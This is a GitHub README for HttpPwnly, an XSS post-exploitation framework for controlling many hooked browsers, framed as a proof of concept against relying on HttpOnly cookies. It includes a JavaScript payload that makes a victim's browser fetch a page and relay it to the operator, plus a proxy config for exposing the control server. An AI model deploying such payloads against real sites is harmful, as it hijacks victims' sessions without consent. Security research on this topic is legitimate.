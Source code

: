 # HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install -r requirements.txt

## Demo:
[![Demo Video](http://img.youtube.com/vi/spfrmsbhBaw/0.jpg)](https://www.youtube.com/watch?v=spfrmsbhBaw "HttpPwnly Update Demo")


## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```javascript
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      sendOutput(id,xmlhttp.responseText);
    }
  };
xmlhttp.open("GET", "/", true);
xmlhttp.send();
```

## Reverse proxy:
HttpPwnly will bind to localhost:5000. In order to make the framework accessible remotely, the best approach is to use a reverse proxy. It's also recommended to offer HTTP as well as HTTPS, another reason to use a reverse proxy! I personally recommend using caddy (https://caddyserver.com/) which is a simple but powerful web server written in golang. This is a working caddy config file:
```
0.0.0.0:443 {
tls cert.pem key.pem
proxy / localhost:5000 {
  websocket
}
}

0.0.0.0:80 {
proxy / localhost:5000 {
  websocket
}
}
```
